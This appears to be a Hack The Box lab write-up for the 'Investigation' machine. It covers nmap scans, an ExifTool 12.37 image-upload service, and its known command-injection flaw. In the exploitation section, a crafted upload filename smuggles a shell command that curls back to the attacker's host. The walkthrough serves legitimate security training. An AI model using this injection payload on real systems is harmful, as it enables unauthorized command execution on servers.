# HTB - Investigation
# Start: 28/02/2023
# IP 10.10.11.197

## Info gathering
### Nmap
```
 nmap -sV -sC investigation.htb -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 14:52 GMT
Nmap scan report for investigation.htb (10.10.11.197)
Host is up (0.013s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
6969/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
|_http-title: Directory listing for /
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- Redirect to eforenzics.htb
- secondary http server with directory listing

adding the redirect to host file, no change in nmap

### WebContent
#### http://eforenzics.htb/

##### /service.html
allows for a .jpg file to be uploaded and returns a link to `/analysed_images/`, a sample output is as follows
```
ExifTool Version Number         : 12.37
File Name                       : White-faced Saki Monkey image.jpg
Directory                       : .
File Size                       : 7.4 KiB
File Modification Date/Time     : 2023:02:28 18:43:27+00:00
File Access Date/Time           : 2023:02:28 18:43:27+00:00
File Inode Change Date/Time     : 2023:02:28 18:43:27+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Little-endian (Intel, II)
Software                        : Google
Exif Version                    : 0220
Exif Image Width                : 275
Exif Image Height               : 183
Image Width                     : 275
Image Height                    : 183
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 275x183
Megapixels                      : 0.050
```
The tool used to generate is listed at the top, ExifTool v12.37
Interesting:
- Exiftool 12.37 is vunerable to command injection < 12.38 (https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)


Other process run:
- gobuster returned nothing interesting
#### SimpleHTTP port 6969
Interesting:
- Contains 2 files, one is empty (analyzed log)
- The other is some sort of message file, using an online .msg reader, there is one zip attachment with a windows log file (.evtx)

### Event Logs
Interesting:
- Domain:EFORENZICS-DI
- accounts: SMorton,AAnderson,Administrator,

## Exploiting
its enough to upload one image and save it into burpsuite repeater so you can edit the filename field within the form-data,
to confirm the vulnerability was exploitable i used `filename="echo 'curl 10.10.14.70:8000' | bash |"` which did indeed call back to my host.


